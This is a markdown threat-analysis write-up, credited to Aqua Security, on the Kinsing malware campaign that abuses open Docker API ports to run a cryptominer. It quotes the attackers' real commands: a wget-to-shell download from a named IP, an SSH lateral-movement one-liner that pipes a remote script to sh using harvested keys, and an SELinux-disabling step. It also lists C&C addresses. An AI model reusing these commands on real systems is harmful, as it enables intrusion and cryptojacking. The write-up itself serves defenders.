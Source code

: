 ```yaml
---

title: " Kinsing Malware Attack   "
description: "  "

---
```


# Kinsing Malware Attack  


Aqua Security Researchers discovered a malware crypto-mining campaign in April 2020  which abuses systems running misconfigured Docker services. 


In this attack, the attackers exploit a misconfigured Docker API port to run an Ubuntu  container with the ‘kinsing’ malicious malware (Golang-based Linux Agent), which in turn  runs a crypto-miner and then attempts to spread the malware to other containers and hosts.  Attack Initiation: Instantiating an Ubuntu container with unprotected open Docker API port. 


attack initialion :- Instantiating an ubuntu container with unprotected open Docker API port 

```

/bin/bash -c apt-get update && apt-get install -y wget cron;service cron start; wget -q -O - 142.44.191.122/d.sh | sh;tail -f /dev/null

```

the command does the following 
- Update packages with `apt-get update` 
- Install ‘wget’ with `apt-get`  
- Start the cron service  
- Download a shell script with the just installed `wget`  
-  Run the shell script and read indefinitely from `/dev/null` to keep the container alive and running. 


- Associated IP addresses for downloading `d.sh`:
1) 142.44.191.122
2) 217.12.221.244
3) 185.92.74.42


# Defense Evasion and Persistence

The shell script d.sh, referred to from hereon as `the shell script`, contains more than 600 lines. We discovered that the shell script does the following:

Disables security measures and clears logs:` echo SELINUX=disabled >/etc/selinux/config`
Kills numerous applications, notably other malwares and cryptominers.
Deletes files related to other malwares/cryptominers, most of them from the /tmp directory
Kills running rival malicious Docker containers and deletes their image.
Downloads the ‘kinsing’ malware and runs it
Uses crontab to download and run the shell script every minute
Looks for other commands running in cron, and if ones were identified, deletes all cron jobs, including its own. We are not certain why the attackers chose to do so, but that is what the script executes:
`crontab -l | sed '/update.sh/d' | crontab -`


A quick look at the malware’s strings reveals that it is a Golang-based Linux agent. It uses several Go libraries, including:

- go-resty – an HTTP and REST client library, used to communicate with a Command and Control (C&C) server.
- gopsutil – a process utility library, used for system and processes monitoring.
- osext – extension to the standard ‘os’ package, used to execute binaries.
- diskv - A disk-backed key-value store, for storage.
- Running the malware in a controlled environment and monitoring it brought up more details about its malicious actions.

# Communication with C&C servers

Before the malware proceeded to deploy its payload, it attempted to communicate with servers in Eastern Europe. It appears that there are dedicated servers for each function that the malware executes:

- Attempts to establish a connection with the following IP address: 45.10.88.102. The attempts fail as the server does not respond.
- Connects to 91.215.169.111, which appears to be the main C&C server. The malware communicates with that host over HTTP port 80, and sends small encrypted messages on regular intervals, every few seconds.
- Connects to 217.12.221.244/spre.sh, which we presume stands for spread, as we will see in the next paragraph, to download a shell script used for lateral movement purposes.
- Connects to 193.33.87.219 to download the cryptominer C&C communication.

# Discovery and Lateral Movement
The spre.sh shell script that the malware downloads is used to laterally spread the malware across the container network.

In order to discover potential targets and locate the information it needs to authenticate against, the script passively collects data from`/.ssh/config, .bash_history, /.ssh/known_hosts`, and the likes. We did not identify any active scanning techniques used to identify additional targets.

Using the information gathered, the malware then attempts to connect to each host, using every possible user and key combination through SSH, in order to download the aforementioned shell script and run the malware on other hosts or containers in the network.

The actual shell script is named spr.sh this time around, but it is identical to the a d.sh shell script used earlier in the attack sequence

The following SSH command was used to spread it throughout the network:

```
ssh -oStrictHostKeyChecking=no -oBatchMode=yes -oConnectTimeout=5 -i $key $user@$host -p$sshp "sudo curl -L http://217.12.221.244/spr.sh|sh; sudo wget -q -O - http://217.12.221.244/spr.sh|sh;"

```




We noticed a comment in the script for a 20 seconds sleep after every 20 SSH connection attempts, and their cleanup, possibly indicating that the attackers have some sense of evasion and were trying to hide their activities.

At the last stage of the attack the malware runs a cryptominer called kdevtmpfsi. The cryptominer was identified by Virus Total as a Bitcoin miner.

The cryptominer connects to a host with the 193.33.87.219 IP address using a log in request over HTTP, receives further instructions, and starts mining cryptocurrency.

The infographic below illustrates the full flow of the attack:

![](/img/KinsingMalwareInfography.png)


credit - https://blog.aquasec.com/threat-alert-kinsing-malware-container-vulnerability
